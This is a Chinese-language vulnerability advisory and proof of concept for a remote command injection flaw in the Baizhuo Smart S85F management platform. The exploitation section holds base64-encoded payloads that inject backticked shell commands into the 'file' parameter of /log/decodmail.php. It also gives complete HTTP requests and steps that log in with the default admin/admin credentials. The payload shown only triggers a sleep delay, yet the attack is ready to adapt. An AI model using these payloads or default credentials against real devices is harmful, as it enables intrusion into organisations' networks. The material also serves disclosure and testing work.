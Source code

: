 来源 不够安全

***产品简介***

百卓Smart S85F是Smart系列上网行为管理设备中的明星产品，它是专为中小型企业量身打造的专业级新品，它在功能设计方面充分考虑了中小型企业对网络设备高性价比的需求，将多种应用功能集于一身，包括网络应用封堵、流量控制、链路负载均衡、网页分类阻断、上网内容审计、防火墙、VPN等，可帮助企业有效减少网络建设成本、规范员工上网行为、提升网络带宽利用率、避免企业信息泄露、增强网络稳定性和安全性。

![image-20230822090921649](./百卓Smart S85F管理系统 远程命令执行.assets/image-20230822090921649.png)

***漏洞描述***

北京百卓Smart S85F管理平台发现漏洞，漏洞编号为20230807，已被宣布为严重漏洞。受此漏洞影响的是文件/log/decodmail.php 的未知功能，对参数文件的操作会导致命令注入，攻击可以远程发起。

***影响版本***

```
Smart S85F
```

***空间测绘***



***漏洞利用***

POC

```

# POC需要进行base64编码
/etc/`sleep 5`.pcap
L2V0Yy9gc2xlZXAgNWAucGNhcA==
# 或者，下面是漏洞作者原版POC
/etc/`sleep${IFS}10`.pcap
L2V0Yy9gc2xlZXAke0lGU30xMGAucGNhcA==
```

```

GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAgNWAucGNhcA== HTTP/1.1
Host: xxx.xxx.xxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=xxxxxxxxxxxxxxxxxxxxxxxxxxxx
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

1.登录系统，默认账户密码：admin/admin

![image-20230822090951037](./百卓Smart S85F管理系统 远程命令执行.assets/image-20230822090951037.png)

2.替换Cookie，发送数据包

```

GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAgNWAucGNhcA== HTTP/1.1
Host: xxx.xxx.xxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=xxxxxxxxxxxxxxxxxxxxxxxxxxxx
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

3.延时5s，命令执行成功

![image-20230822091014049](./百卓Smart S85F管理系统 远程命令执行.assets/image-20230822091014049.png)